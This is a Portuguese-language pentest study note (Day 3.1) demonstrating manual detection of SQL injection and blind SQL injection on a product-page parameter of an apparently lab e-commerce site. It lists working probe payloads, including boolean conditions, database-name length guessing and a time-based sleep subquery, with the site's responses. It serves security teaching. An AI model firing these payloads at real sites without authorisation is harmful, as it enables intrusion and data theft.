


---

>Titulo: Dia 3.1 - Identificando Vulnerabilidades
>
>Fase: exploration
>
>Dia: 3

[SQL Injection](../../0-assets/vulnerabilities/SQL%20Injection.md)

#Blind-SQLI 

---

Agora iremos explorar os Entry Points que conseguimos localizar no dia
[2.2-mapping-entrypoints](../2-mapeando-aplicacao/2.2-mapping-entrypoints.md)

Aqui iremos primeiro testar o Entry Point http://decstore.com.br/produtos.php?prod=864



Onde conseguimos ver este produto, agora vamos testar alguns caracteres diferentes para ver como a aplicação responde, para começarmos a entender os comportamentos e buscar encontrar vulnerabilidades.

Vamos testar se está vulnerável a [SQL Injection](../../0-assets/vulnerabilities/SQL%20Injection.md)
```python
## Esta é a URL que estamos testando
http://decstore.com.br/produtos.php?prod=864

## Vamos começar a brincar com algumas possibilidades de SQLi
### Adicionar um apóstrofo no final para ver se quebra ou retorna erro
http://decstore.com.br/produtos.php?prod=864'

### Inserir uma operação matemática e analisar se retorna o produto normalmente
### Onde se processar e não retornar erro, saberemos que está vulnerável a SQLi
http://decstore.com.br/produtos.php?prod=864-4
### Aqui podemos notar que testamos o produto 864, mas com o -4, retornou o produto 860, logo comprovamos a teoria de vulnerabilidade de SQLi.
```

Agora vamos testar um blind SQLi

```python
## Vamos testar com "and 5=5#"
http://decstore.com.br/produtos.php?prod=864 and 5=5#
### Tivemos uma resposta positiva, retornou o produto normalmente
```

Conseguimos então comprovar a vulnerabilidade Blind SQLi
Onde teriamos a possibilidade de testar o tamanho da base de dados.

```python
## Vamos tentar alguns valores aleatórios manualmente e ver se retorna positivo
http://decstore.com.br/produtos.php?prod=864 and length(database()) = 5#
### O site retornou um erro, vamos testar outros valores como 6,7,8,9,10,11...

### E vimos que o valor '9' retorna o produto, então confirmando o tamanho da base de dados
http://decstore.com.br/produtos.php?prod=864 and length(database()) = 9#
```

Retornando o produto:



Uma outra forma de testar se é vulnerável a Blind SQLi, seria utilizando o "sleep" na query.
```python
## Vamos testar se o site irá correspoder ao atraso configurado do sleep
http://decstore.com.br/produtos.php?prod=864 and (select * from(select(sleep(10)))asdasd)#
### Onde novamente tivemos uma resposta positiva, vulnerável a Blind SQLi
```

#### Porém e se fosse demorar muito tempo testar isso manualmente?
Para isso nós iremos testar outras possibilidades de automatizar esses testes e outras possibilidades com ferramentas próprias para isso, desde que confira antes a existencia de WAF.

---
